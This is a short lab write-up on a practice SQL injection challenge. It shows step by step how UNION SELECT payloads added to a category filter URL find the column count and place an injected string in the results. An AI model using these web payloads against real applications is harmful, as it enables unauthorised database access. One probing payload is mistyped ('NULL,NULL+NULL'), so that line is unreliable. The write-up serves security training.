


# SQL Injection in Product Category Filter
**Lab:** SQL injection vulnerability in product category filter returning an additional row and making a query appear there.
**Category:** SQL Injection
**Difficulty:** Practitioner



Now to complete the lab we have to perform a SQL injection attack that causes the application to show an additional row and making a given query appear there.

Now see the URL there is a filter : `/filter?category=Gifts`
Put a `'`  and see that it says internal server error. Adding a single quote causes an internal server error, indicating that the input is being incorporated into a database query and that the quote is affecting the query syntax.


Now Add the payload at the end of the URL :
```'+UNION+SELECT+NULL--```

```'+UNION+SELECT+NULL,NULL--```

```'+UNION+SELECT+NULL,NULL+NULL--```



You will see that after providing 3 NULL it stops showing internal server error which means there are 3 columns
1. Try replacing each null with the random value provided by the lab, for example:
`'+UNION+SELECT+'abcdef',NULL,NULL--`
2. If an error occurs, move on to the next null and try that instead.
The middle one contains text. and this payload solves the lab:
`'+UNION+SELECT+NULL,'abcdef',NULL--`

## Lab Completed 
The application successfully showed a new row containing the text we gave.